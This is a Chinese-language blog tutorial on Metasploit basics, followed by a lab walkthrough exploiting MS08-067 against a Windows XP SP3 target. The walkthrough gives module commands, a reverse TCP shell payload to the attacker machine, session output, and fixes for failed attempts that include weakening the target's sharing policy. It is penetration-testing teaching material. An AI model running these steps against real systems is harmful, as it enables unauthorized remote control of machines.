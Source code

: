 ```yaml
---
layout:     post               # 使用的布局（不需要改）
title:      MSF 渗透测试    # 标题 
subtitle:      #副标题
date:       2020-07-29        # 时间
author:     yanmie             # 作者
header-img: img/.jpg    ##标签这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               
    - 渗透测试
    - 工具使用
  
--- 
```


## Metasploit渗透测试

#### 基础

1. show exploits

	显示Metasploit框架中所有可用的渗透攻击模块

2. show auxiliary

	显示所有辅助模块及其用途。Metasploit框架中，辅助模块可以是扫描器、拒绝服务攻击工具、Fuzz测试器等

3. show options

	参数（options）是保证Metasploit框架中各个模块正确运行所需的各种设置。当选择一个模块并输入show options后，会列出这个模块所需的各种参数。

4. back

	输入back命令会返回Metasploit的上一个状态。

5. search 

	查找某个特定的渗透攻击、辅助或攻击载荷模块。

6. use

	使用use命令加载模块。

7. show options

	在已选择模块的命令提示符下，输入show options显示模块所需的参数。

8. show payloads

	Metasploit只会将与当前模块兼容的攻击载荷显示出来。

9. set、unsetg

	Metasploit模块中的参数只有两个状态：已设置（set）和未设置（unset）。有些参数被标记为必填项（required），这样的参数必须手工设置并处于启动状态。输入show options查看哪些参数是必填项；set对某个参数进行设置（同时启用该参数）；unset禁用相关参数。

10. show targets

	Metasploit的渗透攻击模块通常可以列出受到漏洞影响的目标系统的类型。

11. info

	info + 模块名显示此模块详细信息、参数说明以及所有可用的目标操作系统（若已选择某个模块，直接输入info）.

12. setg、unsetg

	setg 和unsetg能对全局参数进行设置或清除。如：LHOST

13. save

	将当前设置的值保存下来，在下次启动MSF终端时还可以使用这些设置值。

## MS08_067

测试环境： 

* 靶机： Windows XP Service Pack3 (IP: 192.168.2.128)

* 攻击机： kali (IP: 192.168.2.131)

使用nmap可以检测到漏洞

	nmap --script=vuln 192.168.2.128

搜索MS08——067相关模块

```
msf5 > search MS08_067

Matching Modules
================

   #  Name                                 Disclosure Date  Rank   Check  Description
   -  ----                                 ---------------  ----   -----  -----------
   0  exploit/windows/smb/ms08_067_netapi  2008-10-28       great  Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption
```

使用并进入该模块

```
msf5 > use exploit/windows/smb/ms08_067_netapi 
[*] Using configured payload generic/shell_reverse_tcp

```

显示所需配置参数

	show options

显示对应可用payload

	show payloads 

设置payload

	set payload generic/shell_reverse_tcp     # #设置攻击载荷，反弹式shell

设置靶机和攻击机参数

```
msf5 exploit(windows/smb/ms08_067_netapi) > set RHOSTS 192.168.2.128
RHOSTS => 192.168.2.128
msf5 exploit(windows/smb/ms08_067_netapi) > set LHOST 192.168.2.131
LHOST => 192.168.2.131

```

显示该漏洞受影响的机器

	show targets

设置攻击机器型号

```
msf5 exploit(windows/smb/ms08_067_netapi) > set target Windows XP SP3 Chinese - Simplified (NX)
target => Windows XP SP3 Chinese - Simplified (NX)
```

也可根据自己需求设置其他参数。

使用`check`检查楼否可利用

```
msf5 exploit(windows/smb/ms08_067_netapi) > check
[+] 192.168.2.128:445 - The target is vulnerable.
```

用`exploit`开始攻击

```
msf5 exploit(windows/smb/ms08_067_netapi) > exploit

[*] Started reverse TCP handler on 192.168.2.131:4444 
[*] 192.168.2.128:445 - Attempting to trigger the vulnerability...
[*] Command shell session 2 opened (192.168.2.131:4444 -> 192.168.2.128:1035) at 2020-07-29 19:11:49 +0800



C:\WINDOWS\system32>whoami
whoami
'whoami' �����ڲ����ⲿ���Ҳ���ǿ����еĳ���
���������ļ���


C:\WINDOWS\system32>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter ��������:

        Connection-specific DNS Suffix  . : localdomain
        IP Address. . . . . . . . . . . . : 192.168.2.128
        Subnet Mask . . . . . . . . . . . : 255.255.255.0
        Default Gateway . . . . . . . . . : 192.168.2.2

Ethernet adapter Bluetooth ��������:

        Media State . . . . . . . . . . . : Media disconnected

```

可以看到已经成功控制了靶机。

这里有两个容易出现的错误。

1. **连接错误**：

	```
	msf5 exploit(windows/smb/ms08_067_netapi) > exploit

	[*] Started reverse TCP handler on 192.168.2.131:4444 
	[-] 192.168.2.128:445 - Exploit failed [unreachable]: Rex::ConnectionRefused The connection was refused by the remote host (192.168.2.128:445).
	[*] Exploit completed, but no session was created.
	```

	原因： 445端口没开放，即服务没启动。	

	解决方法：

	* 可以打开cmd,输入`net share`,会询问你是否开启服务，默认回车开启即可。
	* `win + r`输入`services.mcs`，打开`server`服务即可。

2. **登陆失败**
	
	```
	msf5 exploit(windows/smb/ms08_067_netapi) > exploit

	[*] Started reverse TCP handler on 192.168.2.131:4444 
	[-] 192.168.2.128:445 - Exploit failed: Rex::Proto::SMB::Exceptions::ErrorCode The server responded with error: STATUS_OBJECT_NAME_NOT_FOUND (Command=162 WordCount=0)
	[*] Exploit completed, but no session was created.
	```

	解决方法：

	* `win + r`打开`gpedit.msc`组策略管理，依次找到`本地计算机策略 - >计算机配置 - > Windows设置 - >安全设置 - >本地策略 - >安全选项`
	
	修改`网络访问：本地帐户的共享和安全模式`为`经典 - 本地用户以自己的身份验证`

	![amPNqO.png](https://s1.ax1x.com/2020/07/29/amPNqO.png)




	